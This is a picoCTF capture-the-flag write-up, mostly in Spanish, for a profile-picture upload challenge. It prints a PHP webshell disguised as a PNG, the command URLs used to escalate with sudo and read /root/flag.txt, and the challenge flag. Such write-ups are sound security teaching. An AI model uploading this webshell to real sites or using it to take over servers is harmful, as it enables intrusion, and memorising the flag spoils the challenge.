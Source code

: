 A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the `/root` directory.
You can access the web application [here](http://standard-pizzas.picoctf.net:55973/)!

Hints:
1. File upload was not sanitized
2. Whenever you get a shell on a remote machine, check `sudo -l`

## Solución:
Como en la descripción me indica que debo encontrar la flag en un directorio, use un script de php camuflado de imagen PNG para tener una webshell
El script es:
```
┌──(kali㉿kali)-[~/Documents]
└─$ cat flag.png.php 
PNG
<?php
if(isset($_GET['cmd'])){
    echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
}
?>
```
Con este directamente puse el comando sudo -l para saber que podía hacer con root, indicándome que podía hacer todo sin solicitarme contraseña:
```
URL: http://standard-pizzas.picoctf.net:56052/uploads/flag.png.php?cmd=sudo%20-l
Respuesta: User www-data may run the following commands on challenge:
    (ALL) NOPASSWD: ALL
```
Al enterarme de esto, directamente revise lo que habia en el directorio /root/ para saber que archivos revisar:
```
URL: http://standard-pizzas.picoctf.net:56052/uploads/flag.png.php?cmd=sudo%20ls%20/root/
Respuesta: flag.txt
```
Con esto toca simplemente revisar el archivo:
```
URL: http://standard-pizzas.picoctf.net:56052/uploads/flag.png.php?cmd=sudo%20cat%20/root/flag.txt
Respuesta: picoCTF{wh47_c4n_u_d0_wPHP_5f894f6c}
```